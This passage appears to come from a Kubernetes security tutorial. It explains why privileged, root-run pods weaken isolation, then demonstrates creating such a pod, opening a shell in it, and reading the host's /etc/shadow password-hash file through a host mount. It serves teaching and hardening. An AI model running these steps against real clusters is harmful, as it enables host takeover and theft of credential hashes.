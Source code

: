 - **Privileged mode**: The container runs in privileged mode (`privileged: true`). This means it has access to all
  devices on the host and can make any system call to the kernel.

- **Running as Root**: In the `securityContext`, the container is configured to run as root (`runAsUser: 0`). Running
  containers as root (default) can potentially escalate to root on the host, especially if combined with
  `privileged: true`.

These settings significantly reduce the isolation between the container and the host and should be avoided
unless necessary. Generally, containers should be run with the least privilege necessary to
accomplish their tasks.

Let's apply the yaml file and create the pod:

```shell
~/k01$ kubectl apply -f priv-pod.yaml
pod/root-user created

~/k01$
```

```shell
~/k01$ kubectl get po
NAME        READY   STATUS    RESTARTS   AGE
priv-pod   1/1     Running   0          3s

~/k01$
```

Let's explore what we can do from the privileged container within the pod we've just created. First, we'll open a shell
within the container:

```shell
~/k01$ kubectl exec -it priv-pod -- sh
```

Next, we'll validate that we have root privileges:

```shell
/ # id

uid=0(root) gid=0(root) groups=0(root),10(wheel)

/ #
```

As we've mounted the host filesystem into the container and we have root privileges, we can access `any` file on the
host file system. For example, let's check the `/etc/shadow` file, which contains the password hashes of all the users on
the host:

```shell
/ # head -5 /host/etc/shadow

root:*:19516:0:99999:7:::
daemon:*:19516:0:99999:7:::
bin:*:19516:0:99999:7:::
sys:*:19516:0:99999:7:::
sync:*:19516:0:99999:7:::

/ #
```
